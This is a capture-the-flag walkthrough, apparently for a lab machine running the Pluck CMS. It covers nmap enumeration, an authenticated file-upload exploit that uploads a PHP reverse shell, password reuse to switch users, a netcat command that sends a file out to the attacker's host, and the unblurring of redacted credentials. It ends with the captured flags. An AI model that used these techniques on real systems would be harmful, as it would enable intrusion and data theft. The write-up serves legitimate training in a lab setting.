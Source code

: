 Alrighty...

## Enumeration
- So let's take a look at what we've got.
### Website
- So our website here seems pretty old. It's running this janky WordPress alternative called [pluck](https://github.com/pluck-cms/pluck/wiki/).
- I can see a login page, which tells me that it's version 4.7.18. I can try some default passwords and check for known vulns.
- It's using PHP, so that's interesting.
- Username might be `admin` based on some context.
### Nmap
- Nmap scan results: 
```a
Starting Nmap 7.95 ( https://nmap.org ) at 2024-09-28 23:18 EDT  
Nmap scan report for 10.10.11.25  
Host is up (0.017s latency).  
Not shown: 65532 closed tcp ports (conn-refused)  
PORT     STATE SERVICE VERSION  
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)  
80/tcp   open  http    nginx 1.18.0 (Ubuntu)  
3000/tcp open  http    Golang net/http server  
1 service unrecognized despite returning data. If you know the service/version, please submi  
t the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
<SERIVICE RESPONSE HERE> 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/  
.  
Nmap done: 1 IP address (1 host up) scanned in 39.03 seconds
```
- This is pretty interesting...
- We have some sort of website running Go on port 3000, which is unexpected. I need to check that nginx version for vulnerabilities as well. The OpenSSH version looks legit as well.

### Golang site
- So port 3000 is the nice looking website. This is pretty interesting. 
- It looks like a self-hosted git service. Interesting.
- It's using Gitea.
- They're hosting their own source code for the pluck site!
- Username found on this site: `GreenAdmin`.
- I can see all the pages on their site this way. Less enumeration!

### CVE hunt
- First things first, pluck:
	- Version 4.7.18
	- I see [RCE](https://www.exploit-db.com/exploits/51592)!
	- This will be worth looking at for sure. Highly promising.
	- No CVE given, so that's a bit of a let down.
- Next, we have nginx:
	- Version 1.18.0
	- I don't see much of anything other than a DoS without a CVE.
- That Golang Webserver:
	- Unknown version
- Gitea:
	- Version 1.21.11
	- Some interesting things, none on this version. Could try some of it.
- That's just about everything.

## Exploitation
- Let's try that pluck exploit!
- The RCE from ExploitDB seems kind of cringe, so let's do [this PoC](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC) for CVE-2023-50564 on pluck from GitHub.
- It seems as if we need valid login credentials. That's a bit rough.
- Luckily, there isn't a username required. Just need to figure out the password. 
- I used a hint to do this:
	- So enumerating sites is not my strong suit...
	- You can find a hash in the git repo, it's easily cracked.
- With this, I can just manually exploit.
- Upload zip, zip contains a PHP reverse shell.
- THERE WE GO!

### Foothold!
- So the exploit worked, but I'm not a user yet...
- Switching to junior was easy enough. I tried out reusing the password for the website, junior ended up using it. Fun fact: `iloveyou1` as a password is even less secure when you use it for multiple users.
- Little `su junior` action and we're good to go.
- User flag: `8011065ff0c4be024854c75bd12c236c`

### Escalation
- I see another file in here... a PDF.
- I want to see it. The best way to get this bad boy onto my machine isn't entirely clear. There should be a very easy way to get this done, but I might just be pretty silly.
- Here's how we're going to do it with netcat:
	- Host: `nc -lvp [my port] > file`
	- Victim: `nc [my IP] [my port] -w 3 < file`
- Success!
- So we have a PDF, and it contains blurred credentials. I need to unblur them!
- Well, here's a tool called [Depix](https://github.com/spipm/Depix) that claims to be able to do this!
- That was a bust. Let's try [unredacter](https://github.com/bishopfox/unredacter) instead.
- These tools are terrible, I'm taking a hint. I know what to do, but it is 1:15 in the morning and I just don't feel like digging anymore.
- So it turns out that I was right when I tried Depix, but there was just a ton of image processing required where I had to get the exact PNG and then convert the PNG to RGB. After that, I can use the tool. Really ridiculous.

# PWND!
- The ending there was kind of dumb.
- Root flag: `dfa24d2ce0260c810246c015c2fc6e87`